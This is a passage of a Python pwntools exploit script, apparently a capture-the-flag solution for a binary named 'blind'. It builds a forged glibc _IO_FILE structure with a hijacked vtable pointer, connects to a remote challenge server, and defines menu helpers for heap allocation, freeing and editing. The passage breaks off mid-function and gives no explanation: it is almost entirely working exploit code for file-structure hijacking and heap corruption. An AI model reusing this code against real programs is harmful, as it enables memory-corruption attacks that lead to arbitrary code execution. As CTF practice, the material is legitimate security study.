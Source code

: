 ```python
        self.vtable = 0x602168

    def tostr(self):
        buf = _p64(self._flags & 0xffffffff) + \
            _pa(self._IO_read_ptr) + \
            _pa(self._IO_read_end) + \
            _pa(self._IO_read_base) + \
            _pa(self._IO_write_base) + \
            _pa(self._IO_write_ptr) + \
            _pa(self._IO_write_end) + \
            _pa(self._IO_buf_base) + \
            _pa(self._IO_buf_end) + \
            _pa(self._IO_save_base) + \
            _pa(self._IO_backup_base) + \
            _pa(self._IO_save_end) + \
            _pa(self._markers) + \
            _pa(self._chain) + \
            _p32(self._fileno) + \
            _p32(self._flags2) + \
            _p64(self._old_offset) + \
            _p16(self._cur_column) + \
            _p8(self._vtable_offset) + \
            _p8(self._shortbuf)
        if _BITS == 64:
            buf += _p32(0)
        buf += _pa(self._lock)
        if not _IO_USE_OLD_IO_FILE:
            buf += \
            _p64(self._offset) + \
            _pa(self._codecvt) + \
            _pa(self._wide_data) + \
            _pa(self._freeres_list) + \
            _pa(self._freeres_buf) + \
            _psz(self.__pad5) + \
            _p32(self._mode) + \
            ''.join(map(lambda x:_p8(x), self._unused2)) +\
            _pa(self.vtable)
        return buf
        
    def __str__(self):
        return self.tostr()

#p = process("./blind")
p = remote("106.75.20.44 ",9999)

def new(index,content):
	p.recvuntil("Choice:")
	p.sendline('1')
	p.recvuntil("Index:")
	p.sendline(str(index))
	p.recvuntil("Content:")
	p.sendline(content)

def release(index):
	p.recvuntil("Choice:")
	p.sendline('3')
	p.recvuntil("Index:")
	p.sendline(str(index))

def change(index,content):
	p.recvuntil("Choice:")
	p.sendline('2')
	p.recvuntil("Index:")
```